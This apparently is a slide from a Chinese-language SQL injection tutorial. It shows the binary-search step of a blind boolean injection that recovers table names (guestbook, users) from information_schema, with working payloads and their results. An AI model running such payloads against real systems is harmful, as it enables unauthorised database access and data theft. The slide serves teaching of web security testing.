

SQL注入漏洞

第六步：二分法猜解表名
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 # 显示存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<122 # 显示存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<109 # 显示存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<103 # 显示不存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103 # 显示不存在
说明第一个表的名字的第一个字符为小写字母g。
重复上述步骤，即可猜解出两个表名（guestbook、users）。